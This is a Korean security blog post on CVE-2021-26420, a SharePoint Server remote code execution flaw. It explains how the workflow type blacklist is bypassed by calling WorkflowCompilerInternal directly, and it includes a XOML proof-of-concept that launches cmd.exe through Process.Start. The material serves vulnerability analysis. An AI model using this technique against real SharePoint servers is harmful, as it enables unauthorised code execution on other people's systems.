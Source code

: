 ```yaml
---
title: "[하루한줄] CVE-2021-26420: MS SharePoint Server 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, ms, rce, cve-2021-26420]
categories: [1day1line]
date: 2021-10-23 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-26420: REMOTE CODE EXECUTION IN SHAREPOINT VIA WORKFLOW COMPILATION](https://www.zerodayinitiative.com/blog/2021/10/5/cve-2021-26420-remote-code-execution-in-sharepoint-via-workflow-compilation)

## Target

- Microsoft SharePont Server

## Explain

Microsoft SharePoint Server의 원격 코드 실행 취약점인 CVE-2021-26420의 세부 정보가 공개되었습니다.

SharePoint WF(Workflow Foundation)은 모든 dependent type과 assembly가 `web.config` 파일에 정의된 `authorizedTypes` 리스트에서 인증된 경우에만 workflow를 실행합니다.

이러한 화이트리스트와 함께 허용된 네임스페이스임에도 위험하다고 판단되는 특정 Type을 차단하는 블랙리스트 또한 존재하는데, 일반적으로 SharePoint의 workflows는 제한된 컨텍스트에서 컴파일되지만`System.Workflow.ComponentModel.Compiler`의 `WorkflowCompiler` 클래스의 `Compile()` 메서드는 매개 변수를 기반으로 workflow를 컴파일하기 때문에 해커가 매개변수를 지정해 제한없는 새 컨텍스트를 만들 수 있어 `WorkflowCompiler`는 `web.config`의 `authorizedType`리스트에 의해 차단됩니다.

아래는 `WorkflowCompiler.Compile`의 .NET 코드입니다.

```c
// System.Workflow.ComponentModel.Compiler.WorkflowCompiler 
public WorkflowCompilerResults Compile(WorkflowCompilerParameters parameters, params string[] files) 
{ 
    /*...*/ 
    WorkflowCompilerInternal workflowCompilerInternal = (WorkflowCompilerInternal)appDomain.CreateInstanceAndUnwrap(Assembly.GetExecutingAssembly().FullName, typeof(WorkflowCompilerInternal).FullName); 
    WorkflowCompilerResults workflowCompilerResults= workflowCompilerInternal.Compile(parameters, files);
```

`WorkflowCompiler.Compile`이 대부분 `authorizedTypes` 목록에 의해 차단되지 않는 `WorkflowCompilerInternal` 클래스에서 구현됩니다. 또한 `System.Workflow` 네임스페이스에서 실행 가능하므로 `WorkflowCompilerInternal` 을 직접 호출하여 임의의 workflow를 컴파일할 수 있습니다.

아래 XOML 파일(Attck.xoml)로 임의의 코드 실행을 트리거할 수 있습니다. 해당 파일이 컴파일되면 `noCode` 플래그가 지정되지 않은 경우 원하는 .NET 명령을 실행합니다.

```xml
<SequentialWorkflowActivity x:Class="MyWorkflow" x:Name="MyWorkflow" xmlns:x="<http://schemas.microsoft.com/winfx/2006/xaml>" xmlns="<http://schemas.microsoft.com/winfx/2006/xaml/workflow>"> 
    <x:Code><![CDATA[ class Rce : SequentialWorkflowActivity 
    { 
        public Rce(){ 
            Object res=System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > c:/windows/temp/PoC_SPRCE02.txt"); 
        } 
    }    ]]></x:Code> 
</SequentialWorkflowActivity>
```